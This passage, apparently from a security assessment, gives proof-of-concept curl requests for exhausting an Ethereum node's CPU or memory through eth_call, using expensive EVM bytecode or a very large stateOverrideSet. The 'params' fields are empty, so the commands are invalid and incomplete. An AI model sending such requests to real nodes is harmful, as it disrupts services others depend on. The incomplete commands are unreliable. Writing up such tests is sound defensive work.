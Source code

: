 - Scenario 2: Computationally Intensive data (if not properly gas-limited or timed out)
    
    This PoC sends EVM bytecode in the data field designed to be computationally expensive.
    
    ```Bash
    
    # data field contains bytecode for a loop or heavy computation.
    # This is conceptual; actual bytecode would be more complex.
    # Example: A simple infinite loop 'JUMPDEST PUSH1 00 JUMP' -> 5b600056
    # This would typically be caught by gas limits if gas is correctly applied and finite.
    # A more subtle attack might involve many expensive opcodes that sum up,
    # or operations that are slow but not gas-heavy per step.
    curl -X POST --data '{
        "jsonrpc":"2.0",
        "method":"eth_call",
        "params":,
        "id":1
    }' -H "Content-Type: application/json" http://localhost:8545
    ```
    
    *Expected outcome: Node CPU spikes. The call might timeout based on `rpc.evmtimeout` rather than the `gas` parameter if the bytecode is crafted to consume time without consuming much notional gas rapidly per step. Alternatively, it might return an out-of-gas error if gas calculation is sound and the operation is genuinely expensive and exceeds the effective gas limit. Crafting PoCs for `data`-based attacks requires EVM knowledge to create bytecode that is computationally expensive but might not quickly hit standard gas limits if not carefully designed, aiming instead for `rpc.evmtimeout` or memory limits.*
    
- Scenario 3: Large stateOverrideSet (Conceptual)
    
    This PoC attempts to exhaust memory or processing by providing an overly large state override set. This is particularly relevant for Geth, which supports this feature.
    
    ```Bash
    
    # This PoC is harder to make generic without knowing specific Geth limits on override set size.
    # The idea is to send a stateOverrideSet with many accounts or many storage slots per account.
    curl -X POST --data '{
        "jsonrpc":"2.0",
        "method":"eth_call",
        "params":,
        "id":1
    }' -H "Content-Type: application/json" http://localhost:8545
    ```
    